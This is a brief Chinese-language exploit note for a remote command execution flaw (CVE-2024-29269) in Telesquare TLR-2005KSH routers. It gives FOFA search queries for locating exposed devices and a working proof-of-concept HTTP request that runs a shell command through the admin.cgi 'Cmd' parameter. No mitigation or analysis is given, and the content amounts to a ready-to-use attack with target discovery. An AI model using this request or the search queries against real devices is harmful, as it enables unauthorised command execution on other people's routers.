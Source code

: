 ## Telesquare路由器RCE(CVE-2024-29269)

## fofa
```
title="Login to TLR-2005KSH"
app="TELESQUARE-TLR-2005KSH"
```

## poc
```
GET /cgi-bin/admin.cgi?Command=sysCommand&Cmd=id HTTP/1.1
Host: x.x.x.x:8085

```

![image](../../images/3fc91aca-15c0-41e7-94b0-06954993c86b.png)
